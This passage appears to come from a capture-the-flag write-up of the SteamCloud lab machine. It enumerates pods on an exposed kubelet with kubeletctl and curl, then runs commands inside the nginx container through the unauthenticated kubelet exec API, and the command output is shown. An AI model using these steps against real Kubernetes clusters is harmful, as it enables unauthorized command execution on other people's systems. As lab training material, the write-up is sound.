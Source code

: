 ```ruby
./kubeletctl_linux_amd64 --server 10.10.11.133 pods

Result ->                                                                   
[1]  kube-apiserver-steamcloud           kube-system  kube-apiserver         
[2]  kube-controller-manager-steamcloud  kube-system  kube-controller-manager
[3]  storage-provisioner                 kube-system  storage-provisioner    
[4]  kube-proxy-mwwjt                    kube-system  kube-proxy             
[5]  coredns-78fcd69978-858jg            kube-system  coredns                
[6]  nginx                               default      nginx                  
[7]  kube-scheduler-steamcloud           kube-system  kube-scheduler         
[8]  etcd-steamcloud                     kube-system  etcd                   
```
####
####
####
## First explotation phase
### Kubeletctl:
Now we have a containers, but if we prove with any container e.g. **etcd**, the target machine return: *Unable to...: pod does not exist*. So we need to prove with all container or dircover in what container run the target machine. That information we can saw at the moment to we made a **curl** request to the target machine:
####
```ruby
curl -s -k -X GET "https://10.10.11.133:10250/pods" | jq | grep ng

Result ->
"image": "nginx:1.14.2",
"imageID": "docker-pullable://nginx@sha256:f7988fb6c02e0ce69257d9bd9cf37ae20a60f1df7563c3a2a6abe24160306b8d"
```
####
| Curl Param | Description |
| ----- | ----- |
| -s | Makes curl silent |
| -k | (*Insecure*) Allows curl to connect to sites with invalid certificates |
| -X | Specifies the *HTTP* method to use |
####
Already we have the container, now we try to execute commands:
####
```ruby
./kubeletctl_linux_amd64 --server 10.10.11.133 exec "ls -la" -p nginx -c nginx

Result ->
total 76
drwxr-xr-x   1 root root 4096 May  1 18:58 .
drwxr-xr-x   1 root root 4096 May  1 18:58 ..
-rwxr-xr-x   1 root root    0 May  1 18:58 .dockerenv
drwxr-xr-x   2 root root 4096 Mar 26  2019 bin
drwxr-xr-x   2 root root 4096 Feb  3  2019 boot
drwxr-xr-x   5 root root  360 May  1 18:58 dev
drwxr-xr-x   1 root root 4096 May  1 18:58 etc
drwxr-xr-x   2 root root 4096 Feb  3  2019 home
drwxr-xr-x   1 root root 4096 Mar 26  2019 lib
drwxr-xr-x   2 root root 4096 Mar 26  2019 lib64
drwxr-xr-x   2 root root 4096 Mar 26  2019 media
drwxr-xr-x   2 root root 4096 Mar 26  2019 mnt
drwxr-xr-x   2 root root 4096 Mar 26  2019 opt
dr-xr-xr-x 192 root root    0 May  1 18:58 proc
drwxr-xr-x   2 root root 4096 Nov 30  2021 root
drwxr-xr-x   1 root root 4096 May  1 18:58 run
```